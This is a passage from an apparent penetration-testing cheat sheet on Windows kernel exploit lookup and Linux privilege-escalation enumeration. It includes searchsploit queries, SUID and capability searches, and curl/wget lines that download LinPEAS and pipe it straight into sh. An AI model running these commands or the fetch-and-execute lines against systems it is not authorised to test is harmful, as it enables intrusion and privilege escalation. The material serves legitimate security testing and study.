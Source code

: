 ### Kernel Exploits (Last Resort)
```cmd
# Check OS version and patch level
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

# Search for kernel exploits
searchsploit Windows Server 2016 kernel
searchsploit Windows 10 privilege escalation

# Common kernel exploits by OS:
# Windows 7/2008: MS10-059, MS10-092, MS11-011
# Windows 8/2012: MS13-005, MS13-053, MS13-081  
# Windows 10/2016: MS16-032, MS16-135
```

## Linux Privilege Escalation Mastery

### Initial Enumeration Enhanced
```bash
# Basic system information
whoami
id
hostname
uname -a
cat /etc/os-release
cat /etc/issue

# Check sudo permissions immediately
sudo -l

# Check for SUID binaries (quick win check)
find / -type f -perm -4000 2>/dev/null | head -20

# Check for capabilities
getcap -r / 2>/dev/null
```

### Automated Enumeration
```bash
# LinPEAS (comprehensive)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
wget -q -O - https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
./LinEnum.sh -t

# Linux Smart Enumeration
./lse.sh -l 1

# pspy (process monitoring)
./pspy64 -pf -i 1000
```
